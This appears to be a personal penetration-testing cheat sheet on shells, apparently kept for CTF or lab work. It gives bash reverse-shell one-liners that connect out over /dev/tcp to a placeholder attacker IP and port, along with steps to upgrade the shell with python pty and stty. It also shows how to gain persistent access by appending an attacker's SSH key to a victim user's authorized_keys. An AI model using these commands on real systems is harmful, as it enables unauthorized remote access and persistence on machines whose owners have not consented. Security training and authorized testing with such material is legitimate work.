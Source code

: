 # Shells

Always remember to check your IP: [[Linux Networking#Get your IP]]

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```

## Upgrading a Shell

Often, you can simply run `/bin/bash` or equivalent to launch a better shell.

Use `echo "$SHELL"` to determine the shell you're using. Then specify the full path to that shell and it will sometimes spawn you a better, more interactive shell.

```bash
┌──(mac㉿kali)-[~]
└─$ echo "$SHELL"
/bin/bash
┌──(mac㉿kali)-[~]
└─$ /bin/bash
```

### Using Python to spawn /bin/bash

```bash
which bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Backgrounding Shell Trick

Within your shell, possibly after spawning a `/bin/bash` process with python, do the following to fix the interactivity in your shell:

- Press `Ctrl + z` to background the process
- Execute the command `stty raw -echo` on your host machine
- Type `fg` on your host (you will not see this on screen)
- Press the `Enter` key twice

You should now have an interactive shell!

You can then run `export TERM=xterm` to allow clearing the terminal.

If your line wrapping seems off, you may need to recalibrate the columns and rows in your new shell. Do the following:

- Execute `stty -a` on your host machine and make a note of the rows and columns number
- In your new shell, execute `stty rows Y cols X` where Y is your number of rows and X is your number of columns

*Note:* This does not work in meterpreter or metasploit shells in general.

### Use your shell to write an SSH key

This is one of the most reliable ways of getting an interactive shell - if you have permissions to pull it off.

First, generate a key pair to use to access the box (do this on your host machine):

```bash
$ ssh-keygen -f key_name
```

Then read the public key and copy it to your clipboard:

```bash
$ cat key_name.pub
```

On the victim box, find the user you would like to remotely access - in this example, `victim`:

```bash
$ echo 'CONTENTS_OF_KEY' >> /home/victim/.ssh/authorized_keys
```

Then ssh in from your host:

```bash
ssh -i key_name victim@IP_ADDRESS
```

### Girsh

[Repo link](https://github.com/nodauf/Girsh)

# Tags

#cheat-sheet #unix